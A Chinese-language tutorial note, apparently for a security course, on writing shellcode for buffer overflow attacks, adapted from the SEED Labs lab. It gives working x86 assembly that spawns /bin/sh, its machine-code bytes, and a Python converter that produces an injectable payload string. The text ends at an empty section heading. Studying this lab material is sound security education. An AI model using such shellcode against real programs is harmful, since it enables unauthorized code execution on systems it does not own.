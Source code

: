 # 构造shellcode

如何构造恶意代码进行攻击？最方便的是注入运行shell程序的代码。
为shell程序编写的汇编代码称为shellcode，shellcode只适合汇编来写

## 缓冲区溢出c语言不适合写恶意代码

```c
#include <stddef.h>

void main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```
1、缓冲区溢出攻击中，恶意代码不是由操作系统加载的，而是由内存复制载入的。而c程序运行需要启动操作系统加载器。   
2、由于要复制，无法解决代码中的0问题  

## 如何写shellcode

这部分来自[Seed Labs shellcode development Lab](https://seedsecuritylabs.org/Labs_20.04/Files/Shellcode/Shellcode.pdf)  
shellcode和处理器有关系，一般用intel处理器，有两种：  
x86是32位CPU的  
x64是64位CPU的  

!!! Note

    64位的处理器也能运行32位的程序

首先安装汇编语言编译程序nasm
```bash
sudo apt install nasm
```

以下是一个32位汇编mysh.s  
```text
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```
![编译32位目标文件](../img/overflow-shellcode1.png)
程序执行前后，当前shell进程id不一样，说明新起了一个shell进程  

!!! nasm指令

    nasm -f elf32 mysh.s -o mysh.o编译32位.o文件。-f elf32编译ELF二进制格式 
    ld -m elf__i386 mysh.o -o mysh链接成32位可执行文件

攻击的时候，我们只需要的是shellcode的机器码，只有机器码才称为shellcode  
可以从目标文件或者可执行文件中得到机器码，对于汇编语言，有两种方式得到机器码：1、AT&T语法模式。2、Intel语法模式

得到机器码：
![得到机器码](../img/overflow-shellcode2.png)

也可以用xxd打印偏于copy的机器码：
![得到机器码](../img/overflow-shellcode3.png)

机器码在python程序里运行需要转换成python数组的格式，转换程序如下：
```python
#!/usr/bin/env python3

# Run "xxd -p -c 20 rev_sh.o",
# copy and paste the machine code to the following:
ori_sh ="""
31c050682f2f7368
682f62696e89e3505389e131d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15: 
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
```
![得到shellcode](../img/overflow-shellcode4.png)
就得到了最终的shellcode

## 构造shellcode的核心方法

